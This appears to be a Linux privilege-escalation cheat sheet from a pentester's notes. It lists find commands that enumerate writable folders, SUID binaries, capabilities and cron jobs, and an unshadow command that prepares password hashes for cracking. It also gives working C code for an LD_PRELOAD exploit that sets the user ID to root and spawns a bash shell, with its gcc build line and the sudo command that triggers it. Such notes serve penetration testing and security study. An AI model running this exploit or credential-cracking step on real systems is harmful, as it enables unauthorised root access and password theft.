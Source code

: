 ```
find / -type d -name config             find the directory named config under “/”
find / -type f -perm 0777               find files with the 777 permissions
find / -perm a=x                        find executable files
find /home -user frank                  find all files for user “frank” under “/home”
find / -mtime 10                        find files that were modified in the last 10 days
find / -atime 10                        find files that were accessed in the last 10 day
find / -cmin -60                        find files changed within the last hour (60 minutes)
find / -amin -60                        find files accesses within the last hour (60 minutes)
find / -size 50M                        find files with a 50 MB size

find / -writable -type d 2>/dev/null    Find world-writeable folders
find / -perm -222 -type d 2>/dev/null   Find world-writeable folders
find / -perm -o w -type d 2>/dev/null   Find world-writeable folders

find / -perm -o x -type d 2>/dev/null   Find world-executable folders

find / -name perl*                      Find development tools and supported languages
find / -name python*                    Find development tools and supported languages
find / -name gcc*                       Find development tools and supported languages
```
`unshadow passwd.txt shadow.txt > passwords.txt`
#### Sudo:
`sudo -l` and check [GTFOBins](https://gtfobins.github.io/)

Leverage LD_Preload (if env_keep+=LD_PRELOAD is set):
```
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
unsetenv("LD_PRELOAD");
setgid(0);
setuid(0);
system("/bin/bash");
}
```
`gcc -fPIC -shared -o shell.so shell.c -nostartfiles`

`sudo LD_PRELOAD=/home/user/ldpreload/shell.so find`

#### Suid:

`find / -type f -perm -04000 -ls 2>/dev/null`

`find / -perm -u=s -type f 2>/dev/null`

#### Capabilities:
`getcap -r / 2>/dev/null`

#### Cron Jobs:
`cat /etc/crontab`
